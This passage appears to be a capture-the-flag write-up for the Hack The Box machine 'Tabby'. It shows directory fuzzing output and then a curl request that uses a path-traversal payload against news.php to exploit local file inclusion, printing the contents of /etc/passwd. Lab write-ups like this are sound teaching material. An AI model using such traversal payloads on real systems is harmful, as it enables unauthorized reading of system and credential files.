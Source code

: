 ```
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response status: 403
________________________________________________

index.php               [Status: 200, Size: 14175, Words: 2135, Lines: 374]
news.php                [Status: 200, Size: 0, Words: 1, Lines: 1]
.                       [Status: 200, Size: 14175, Words: 2135, Lines: 374]
:: Progress: [153068/153068] :: Job [1/1] :: 773 req/sec :: Duration: [0:03:18] :: Errors: 0 ::
```

Let's try to do something with `news.php`.

If we check the menu on the main page, we can see that `NEWS` have the following
link: http://megahosting.htb/news.php?file=statement

Let's add the local domain entries:

```
$ cat /etc/hosts| grep 194
10.10.10.194 tabby.htb
10.10.10.194 megahosting.htb
```

The link does look like LFI vulnerable.

## HTTP exploitation: LFI

Let's confirm the LFI:

```
$ curl http://megahosting.htb/news.php\?file\=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```